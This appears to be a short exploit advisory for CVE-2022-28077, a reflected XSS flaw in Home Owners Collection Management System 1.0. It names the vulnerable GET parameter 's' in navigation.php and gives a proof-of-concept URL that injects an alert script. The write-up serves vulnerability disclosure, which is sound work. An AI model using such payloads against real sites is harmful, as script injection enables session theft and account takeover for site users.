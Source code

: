 # CVE-2022-28077
Home Owners Collection Management System 1.0 - Reflected XSS

#### Exploit Title: Home Owners Collection Management System 1.0 - Reflected XSS
#### Date: 2022-05-06
#### CVE: CVE-2022-28077
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----


#### [#] Vulnerability Location:

	`$_GET['s']` in `/hocms/admin/inc/navigation.php:117`

#### [#] Exploitation:

	`http://localhost/hocms/admin/?s=<script>alert('b4zb0z')</script>`
